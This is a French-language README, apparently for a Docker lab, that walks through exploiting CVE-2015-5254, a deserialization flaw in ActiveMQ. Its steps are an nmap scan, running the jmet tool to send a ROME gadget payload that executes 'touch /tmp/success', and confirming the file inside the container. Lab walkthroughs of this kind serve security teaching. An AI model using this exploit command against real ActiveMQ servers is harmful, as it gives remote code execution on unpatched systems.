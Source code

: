 # README - Exploitation de CVE-2015-5254

Ce document explique les étapes nécessaires pour exploiter la vulnérabilité **CVE-2015-5254** sur un serveur ActiveMQ. Il inclut la configuration de l'environnement, l'exploitation de la faille et la vérification des résultats.

---

## **1. Configuration de l'environnement ActiveMQ**

### Lancer ActiveMQ avec Docker
1. Positionnez-vous dans le dossier `activemq_2015`.
2. Lancez ActiveMQ en arrière-plan avec la commande :
   ```bash
   docker compose up -d
   ```
3. Accédez à l'interface d'administration ActiveMQ dans un navigateur :
   ```
   http://localhost:8161/admin/
   ```

   Vous devriez voir la version d'ActiveMQ (exemple : 5.11.1).

![Interface ActiveMQ](https://github.com/user-attachments/assets/fd58667a-cb77-4458-8bd6-a0f323f03e1c)

### Vérifier la version d'ActiveMQ
- La version peut également être confirmée dans le fichier `docker-compose.yml`.

![Version dans docker-compose.yml](https://github.com/user-attachments/assets/125fbdbd-77fb-46a0-8c8a-acebcf745bd7)

---

## **2. Identifier les services actifs**

Utilisez `nmap` pour scanner le réseau et vérifier que le port 61616 est ouvert :
```bash
nmap -p- 192.168.1.145
```

![Résultats de nmap](https://github.com/user-attachments/assets/f3f1a525-1337-4b49-8ab3-7ec538eec2e2)

---

## **3. Préparer la charge utile**

1. Créez un dossier appelé `external` pour y stocker le fichier malveillant :
   ```bash
   mkdir external
   ```

   ![Création du dossier external](https://github.com/user-attachments/assets/30b6afcf-3642-4be8-9c88-c4ad88f9852a)

2. Téléchargez l'outil **jmet-0.1.0-all.jar** depuis le lien suivant :
   [Télécharger JMet](https://github.com/matthiaskaiser/jmet/releases).
3. Placez le fichier téléchargé dans le dossier `activemq_2015`.

---

## **4. Exploiter la vulnérabilité**

1. Exécutez la commande suivante pour envoyer une charge utile à ActiveMQ :
   ```bash
   java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME 192.168.1.145 61616
   ```

   - Cette commande crée un fichier nommé `success` dans le répertoire `/tmp` du conteneur ActiveMQ.

![Envoi de la charge](https://github.com/user-attachments/assets/1cf96446-9765-4ba1-ba47-430dd2d12fdd)

2. Vérifiez l’injection en consultant l’onglet **Queues** de l’interface d’administration ActiveMQ.
   - Vous devriez voir le message injecté dans la file d’attente.

![Message injecté](https://github.com/user-attachments/assets/2f1d85a9-0f23-4b35-8fd2-8c11541d8120)

---

## **5. Vérification du succès de l’injection**

1. Listez les conteneurs en cours d'exécution pour obtenir l'ID du conteneur ActiveMQ :
   ```bash
   docker ps -a
   ```

   ![Liste des conteneurs](https://github.com/user-attachments/assets/a31e82c3-a845-4af4-ac48-abe4ee5e2024)

2. Accédez au conteneur ActiveMQ avec la commande suivante :
   ```bash
   docker exec -it <ID_du_conteneur> /bin/bash
   ```
   - Remplacez `<ID_du_conteneur>` par l'ID récupéré précédemment.

![Accès au conteneur](https://github.com/user-attachments/assets/a1449b45-b334-47a7-83fb-da2ba883e82b)

3. Rendez-vous dans le répertoire `/tmp` et vérifiez la présence du fichier `success` :
   ```bash
   ls /tmp
   ```

![Vérification du fichier success](https://github.com/user-attachments/assets/65d0490b-26b4-4f6e-aabb-4f77f0901cb0)

   - La présence du fichier indique que la commande a été exécutée avec succès.

---

